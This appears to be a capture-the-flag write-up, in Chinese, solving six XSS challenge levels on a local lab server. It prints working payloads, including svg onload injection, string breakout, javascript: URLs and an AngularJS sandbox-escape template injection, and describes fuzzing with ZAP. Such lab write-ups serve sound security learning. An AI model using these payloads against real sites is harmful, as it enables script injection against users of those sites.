



# XSS

## Description

你能否过关斩将解决所有 XSS 问题最终获得 flag 呢？

## Solution

要一一對照所有漏洞太難了，不如我們來用 ZAP 配合 XSS 字典來 fuzz 吧

### Level 1

進入第一關 `http://127.0.0.1:3000/level1?username=test`

很明確可以 fuzz 的目標是 username=test 中的 test 字串

我使用以下字典完成 fuzz： https://github.com/payloadbox/xss-payload-list



有 reflected 的看一下 response 如果語法顯示合理，理論上表示攻擊成功，但實際上輸入瀏覽器有更高的安全標準，所以還是要多試幾個看看。

我在 google chrome 中輸入以下字串，成功完成攻擊:

- `http://127.0.0.1:3000/level1?username=veris--%3Egroup%3Csvg/onload=alert(/XSS/)//`

關鍵是利用 `<svg>` 來觸發 `onload` event，當網頁載入時會執行 `onload` event 中的 JavaScript code。

看起來大於小於符號的 html encode 並沒有被封鎖。

### Level 2

第二關不能無腦 fuzz 了，因為過濾機制擺到 client 了，查看 html code 可以得到以下代碼。

```JS
if(location.search == ""){
	location.search = "?username=xss"
}
var username = 'xss';
document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
```

可以明確發現，我們的輸入會進到 username，而且未做防禦，是插入前才用 escape 過濾變數。

因此只要跳脫變數 `username`，就可以執行任意的 JavaScript code。

參考以下答案:

```JS
var username = 'baby'; alert(1); var a = '';
document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
```

把 `baby'; alert(1); var a = '` 丟到 url encode 後，再放進 url 中，可以得到答案

- `http://127.0.0.1:3000/level2?username=baby%27%3B%20alert%281%29%3B%20var%20a%20%3D%20%27`

### Level 3

這題直接貼上上一題的答案，會失敗，因為得到以下結果

```JS
if(location.search == ""){
	location.search = "?username=xss"
}
var username = 'baby\'; alert(1); var a = '';
document.getElementById('ccc').innerHTML= "Welcome " + username;
```

發現核心因素是它把 baby 後變得跳脫用的 `'` replace 成 `\'`，所以我們需要把 `'` 用 `\\'` 替換掉

放入 url encode 後，再放進 url 中，可以得到答案

- `http://127.0.0.1:3000/level3?username=baby%5C%27%3B%20alert%281%29%3B%20var%20a%20%3D%20%27`

### Level 4

這題也是 client 端有較複雜的防護機制，我們需要先分析出它如何防止 xss 攻擊。

```JS
var time = 10;
var jumpUrl;
if(getQueryVariable('jumpUrl') == false){
	jumpUrl = location.href;
}else{
	jumpUrl = getQueryVariable('jumpUrl');
}
setTimeout(jump,1000,time);
function jump(time){
	if(time == 0){
		location.href = jumpUrl;
	}else{
		time = time - 1 ;
		document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
		setTimeout(jump,1000,time);
	}
}
function getQueryVariable(variable)
{
       var query = window.location.search.substring(1);
       var vars = query.split("&");
       for (var i=0;i<vars.length;i++) {
               var pair = vars[i].split("=");
               if(pair[0] == variable){return pair[1];}
       }
       return(false);
}
```

基於分析，發現會直接跳轉到 `jumpUrl` 的值，而沒有進行任何的過濾或驗證。因此，可以通過 `javascript 協議 URL` 來觸發 JavaScript 代碼。例如：

`http://127.0.0.1:3000/level4?jumpUrl=javaScript:alert(1)`

要等待時間倒數完

### Level 5

基本上也是直接解讀前端原始碼就有答案了

原始碼 as below

```JS
if(getQueryVariable('autosubmit') !== false){
	var autoForm = document.getElementById('autoForm');
	autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
	autoForm.submit();
}else{
}
function getQueryVariable(variable)
{
       var query = window.location.search.substring(1);
       var vars = query.split("&");
       for (var i=0;i<vars.length;i++) {
               var pair = vars[i].split("=");
               if(pair[0] == variable){return pair[1];}
       }
       return(false);
}
```

得知只要遵循以下步驟，可以自訂 form 的 action 屬性：

1. 在 URL 中加入 `autosubmit=true` 參數。
2. 在 URL 中加入 `action=your_custom_url` 參數。

此時在 action 注入 XSS 攻擊: `javascript:alert('XSS')`

使用網址: `http://127.0.0.1:3000/level5?autosubmit=true&action=javascript:alert('XSS')`

### Level 6

到這題又沒有前端的程式碼，沒有方向下，再度用 ZAP 跑 Fuzzing。

然而難過的是 Fuzzing 竟然沒有結果，至此以 CTF 的題目來說，應該不是一般的 XSS 漏洞。

查看前端原始碼，看是否有線索。



發現是用 angular 寫的，抱著試一試的心態，利用 Angular 的 `{{ }}` 來嘗試注入 (template injection)。

使用 `http://127.0.0.1:3000/level6?username={{3*3}}`，得到運算結果 `9`。



這表示 Angular 的 `{{ }}` 確實是會執行的，接下來嘗試 XSS 攻擊。

進入別人寫的漏洞字典，一行一行嘗試。 ref: `https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3`

最後在 `{{%27a%27.constructor.prototype.charAt=[].join;$eval(%27x=1}%20}%20};alert(1)//%27);}}` 得到成功結果。

使用以下網址攻擊成功:

`http://127.0.0.1:3000/level6?username={{%27a%27.constructor.prototype.charAt=[].join;$eval(%27x=1}%20}%20};alert(1)//%27);}}`
